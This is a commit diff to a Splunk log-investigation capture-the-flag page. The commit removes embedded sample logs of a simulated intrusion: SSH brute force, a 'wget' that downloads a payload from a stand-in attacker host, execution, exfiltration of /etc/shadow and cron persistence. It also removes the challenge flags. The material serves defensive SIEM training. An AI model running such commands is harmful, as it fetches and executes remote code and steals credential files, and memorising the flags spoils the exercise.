

Before and after one commit to d0lv3/work_workshop2, a plain HTML site: page splunk-challenge/challenge.html in a window 1280 px wide. Shown: the part 55-800 px from the top of the page. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Remove embedded logs from challenge, add standalone .log file for Splunk ingestion

```diff
--- a/splunk-challenge/challenge.html
+++ b/splunk-challenge/challenge.html
@@ -42,16 +42,7 @@
     .challenge-subtitle { font-size: 1rem; color: var(--text-secondary); margin-bottom: 2rem; line-height: 1.7; }
     .challenge-subtitle strong { color: var(--accent); }
 
-    /* Log viewer */
-    .log-viewer { background: #0d1117; border: 1px solid var(--border); border-radius: var(--radius); padding: 1.25rem 1.5rem; margin-bottom: 2.5rem; overflow-x: auto; }
-    .log-viewer h3 { font-size: 0.8rem; text-transform: uppercase; letter-spacing: 0.1em; color: var(--accent); margin-bottom: 1rem; font-weight: 600; }
-    .log-viewer pre { font-family: 'Courier New', monospace; font-size: 0.78rem; line-height: 1.8; color: #c9d1d9; white-space: pre; }
-    .log-viewer .log-line { display: block; padding: 2px 0; }
-    .log-viewer .log-line:hover { background: rgba(230, 126, 34, 0.06); }
-    .log-viewer .log-fail { color: #f87171; }
-    .log-viewer .log-accept { color: #4ade80; }
-    .log-viewer .log-cmd { color: #fbbf24; }
-    .log-viewer .log-flag { color: #a78bfa; }
+
 
     .progress-track { width: 100%; height: 6px; background: var(--bg-surface-alt); border-radius: 100px; margin-bottom: 2.5rem; overflow: hidden; }
     .progress-fill { height: 100%; width: 0%; background: linear-gradient(90deg, var(--accent), #f59e0b); border-radius: 100px; transition: width 0.6s cubic-bezier(0.4, 0, 0.2, 1); }
@@ -103,7 +94,7 @@
       .challenge-container { padding: 2rem 1rem 3rem; }
       .answer-row { flex-direction: column; }
       .challenge-header { padding: 1rem; }
-      .log-viewer pre { font-size: 0.68rem; }
+
     }
   </style>
 </head>
@@ -118,26 +109,11 @@
 
     <h1 class="challenge-title">Splunk Log Investigation</h1>
     <p class="challenge-subtitle">
-      Read the <strong>log events</strong> below carefully and answer each question.
-      These are real-world style logs you would see inside a SIEM like Splunk.
-      Some logs contain hidden <strong>flags</strong> — look closely!
+      Use your <strong>Splunk lab</strong> to investigate the ingested logs and answer each question.
+      Search through the events using SPL queries. Some logs contain hidden <strong>flags</strong> — hunt them down!
     </p>
 
-    <!-- Log Viewer -->
-    <div class="log-viewer">
-      <h3>Event Logs — index="main"</h3>
-      <pre><span class="log-line log-fail">May  2 12:00:01 web-server-01 sshd[1234]: Failed password for root from 192.168.1.100 port 54321 ssh2</span>
-<span class="log-line log-fail">May  2 12:00:02 web-server-01 sshd[1235]: Failed password for root from 192.168.1.100 port 54322 ssh2</span>
-<span class="log-line log-fail">May  2 12:00:03 web-server-01 sshd[1236]: Failed password for admin from 192.168.1.100 port 54323 ssh2</span>
-<span class="log-line log-fail">May  2 12:00:04 web-server-01 sshd[1237]: Failed password for root from 192.168.1.100 port 54324 ssh2</span>
-<span class="log-line log-accept">May  2 12:00:05 web-server-01 sshd[1238]: Accepted password for root from 192.168.1.100 port 54325 ssh2</span>
-<span class="log-line log-cmd">May  2 12:05:00 web-server-01 bash: root : TTY=pts/0 ; PWD=/root ; USER=root ; COMMAND=wget http://evil-empire.com/payload.sh -O /tmp/payload.sh</span>
-<span class="log-line log-cmd">May  2 12:05:05 web-server-01 bash: root : TTY=pts/0 ; PWD=/root ; USER=root ; COMMAND=chmod +x /tmp/payload.sh</span>
-<span class="log-line log-cmd">May  2 12:05:10 web-server-01 bash: root : TTY=pts/0 ; PWD=/root ; USER=root ; COMMAND=./tmp/payload.sh</span>
-<span class="log-line log-flag">May  2 12:06:00 web-server-01 payload.sh: [INFO] flag{brut3_f0rc3_succ3ss} — callback established to C2 server</span>
-<span class="log-line log-flag">May  2 12:06:15 web-server-01 payload.sh: [DATA] Exfiltrating /etc/shadow — flag{sh4d0w_st34l}</span>
-<span class="log-line log-flag">May  2 12:06:30 web-server-01 kernel: [ALERT] New crontab entry added by root — persistence installed — flag{p3rs1st3nc3_cr0n}</span></pre>
-    </div>
+
 
     <div class="progress-track">
       <div class="progress-fill" id="progress-fill"></div>
```
Also changed, not shown: 1 other file.
